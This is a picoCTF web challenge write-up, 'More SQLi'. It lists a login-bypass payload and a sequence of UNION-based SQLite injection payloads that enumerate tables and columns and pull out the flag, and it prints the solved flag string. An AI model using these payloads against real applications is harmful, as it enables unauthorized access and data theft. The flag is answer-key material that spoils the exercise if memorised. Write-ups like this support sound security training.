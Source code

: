 # picoCTF - Web/More SQLi
![](https://img.shields.io/badge/category-web-informational) ![](https://img.shields.io/badge/topic-sqli-green)

Can you find the flag on this website. Try to find the flag [here].

---
# Solution
Perform sqli on login and search. Find the flag using SQLite UNION Based sqli


The site has a login page that shows the SQL query when trying a `username` and `password`

![Pasted Image](https://media.discordapp.net/attachments/1085935110626476233/1085935115768701029/image.png?width=1207&height=173)

## Attack chain
1. login payload:
username `joyuriz`
password: `'OR '1'='1'-- -`

> This redirects to a search page where UNION Based SQL payloads can be used

2. DBMS identification payload:
`' OR 1=1 UNION SELECT 1,2, sqlite_version()=sqlite_version()-- -
DB sqlite `

3. Tables identification payload:
`' OR 1=1 UNION SELECT null,null,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`

![tables](https://media.discordapp.net/attachments/1085935110626476233/1085940372544434278/image.png?width=1083&height=505)


4. column identification payload:
`' OR 1=1 UNION SELECT 1,2,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'-- -`

> found out the columns for more_table consist of id and flag

5. Payload for getting the flag (view column data) 
`' OR 1=1 UNION SELECT id, "flag:",flag FROM more_table-- -`

![flag](https://media.discordapp.net/attachments/1085935110626476233/1085942359642099722/image.png?width=1111&height=418)

---

# Flag

`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}`

---

# References

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification 

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md 


